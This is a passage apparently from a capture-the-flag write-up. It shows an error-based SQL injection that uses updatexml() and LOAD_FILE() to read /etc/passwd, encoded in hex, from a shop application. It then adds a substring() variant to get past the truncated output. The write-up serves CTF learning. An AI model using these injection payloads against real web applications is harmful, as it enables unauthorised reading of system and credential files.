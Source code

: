 ```http
1+and+updatexml(null,concat(0x0a,(select+LOAD_FILE(0x2f6574632f706173737764))),null)--+-&f=shop&act=buy&temp_id=0
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Bauhinia-CTF-2023/images/Pasted%20image%2020230821113504.png)

Nice! However, the file's content looks like is being **truncated**. To solve this we can use `substring()`:

```sql
1 and updatexml(null,concat(0x0a,(substring((select LOAD_FILE(<file_name_in_hex>)),1,31))),null)-- -
```
